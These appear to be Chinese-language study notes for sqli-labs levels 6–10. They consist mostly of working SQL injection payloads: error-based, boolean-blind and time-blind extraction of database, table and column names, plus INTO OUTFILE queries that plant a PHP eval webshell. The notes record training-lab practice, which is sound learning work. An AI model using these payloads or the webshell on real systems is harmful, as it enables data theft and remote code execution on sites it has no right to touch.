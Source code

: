 # 6
和5一样，只是'变成"

# 7 (和前面不太一样)(例题)【先找出能正常执行的语句】
- ?id=1
![alt text](image.png)
![alt text](image-1.png)

- ?id=1'
![alt text](image-4.png)

- ?id=1' -- a
![alt text](image-5.png)

- ?id=1') -- a
![alt text](image-7.png)

- ?id=1')) -- a【不再报错】
![alt text](image-6.png)

- ?id=1')) order by 3-- a(确定只有3个字段)

- ?id=1')) and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) -- a(这里我们想用和上面一样的做法，发现没有结果)(根据他的提示用outfile)
![alt text](image-8.png)

- 后门
  -  ?id=1'))union select 1,"<?php eval($_REQUEST[1]);?>",3 into outfile 'D://phpstudy_pro//WWW//sqli-labs//Less-7//shell.php' -- a【写入 PHP 后门文件】（eval后面的语句当作执行指令）
![alt text](image-9.png)
  - 然后用   shell.php?1=phpinfo();   查询，？代表传参

# 8.1 （回显不显示）【后门】
- id=1?' and 1=1 -- a 和 id=1?' and 1=2 -- a有区别

- ?id=1' order by 3 -- a(确定有3个字段)

- ?id=1' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) -- a （没有回显）
![alt text](image-10.png)

- ?id=1' union select 1,"<?php eval($_REQUEST[1]);?>",3 into outfile 'D://phpstudy_pro//WWW//sqli-labs//Less-7//shell.php' -- a  +  shell.php?1=phpinfo();（直接拿下）
![alt text](image-11.png)


# 8.2 【盲注（布尔盲注、时间盲注）】【页面有无变化】
![alt text](image-13.png)
- ?id=1' order by 3 -- a(确定有3个字段)

- ?id=1' union select 111,222,333 -- a【和以前的不同，没有显错位】
![alt text](image-12.png)

- 步骤：
  1. 猜解库名长度：? id=1' and (length (database ()))=8 -- qwe
  2. 利用ASCII码猜当前数据库的名称：? id=1' and (ascii (substr (database (),1,1)))=115-- qwe 返回正常，说明数据库名称第一位是 s? id=1' and (ascii (substr (database (),2,1)))=101-- qwe 返回正常，说明数据库名称第二位是 e
  3. 猜表名：? id=1' and (ascii (substr ((select table_name from information_schema.tables where table_schema=database () limit 0,1),1,1)))=101-- qwe 如果返回正常，说明数据库表名的第一个的第一位是 e【(select table_name from information_schema.tables where table_schema=database () limit 0,1)查表名的语句】
  4. 猜字段：and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe 如果返回正常，说明 emails 表中的列名称第一位是 i

- ?id=1' and (length(database()))>1 -- a
![alt text](image-14.png)


- ?id=1' and (length(database()))>10 -- a
![alt text](image-15.png)


- ?id=1' and (length(database()))=8 -- a （说明表名长度就是8）
![alt text](image-16.png)

- ?id=1' and (ascii(substr(database(),1,1)))=115 -- a(115没有报错，说明第一位就是s)（剩下的接着猜）（也可以用><来缩小范围）【limit从0开始，substr从1开始】
![alt text](image-17.png)

- ?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 -- a
![alt text](image-18.png)
- ?id=1' and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe(不用再写table_schema)


# 9
![alt text](image-19.png)
- 基础语句尝试之后发现页面没有任何变化，所以可以试一下 时间盲注（sleep和if）
- if(条件，成立所执行的语句，不成立所执行的语句)

- 步骤：
  1. 猜测库名长度?id=1' and if (length (database ())=8,sleep (5),1) -- qwe
  2. 利用 ASCII 码猜解当前数据库名称：
  ?id=1' and if ((ascii (substr (database (),1,1))=115),sleep (5),1) -- qwe 延时，说明数据库名称第一位是 s
  3. 猜表名：?id=1' and if ((ascii (substr ((select table_name from information_schema.tables where table_schema=database () limit 0,1),1,1))=101),sleep (5),1) -- qwe 延时，说明数据库表名的第一个的第一位是 e
  4. 猜字段名?id=1' and if ((ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105),sleep (5),1) -- qwe 如果返回正常，说明 emails 表中的列名称第一位是 i 

- ?id=1" and if(length(database())=8,sleep(5),1) -- a【注意括号位置】
![alt text](image-20.png)

- ?id=1' and if((ascii(substr(database(),1,1))=115),sleep(5),1) -- a
![alt text](image-21.png)

- ?id=1'and if ((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101),sleep(5),1) -- a【不要加一些不必要的空格】
![alt text](image-22.png)

- ?id=1' and if((ascii(substr(((select column_name from information_schema.columns where table_schema=database() limit 0,1)),1,1))=105),sleep(5),1) -- a
![alt text](image-23.png)


# 10
和9一样，只不过是"闭合



























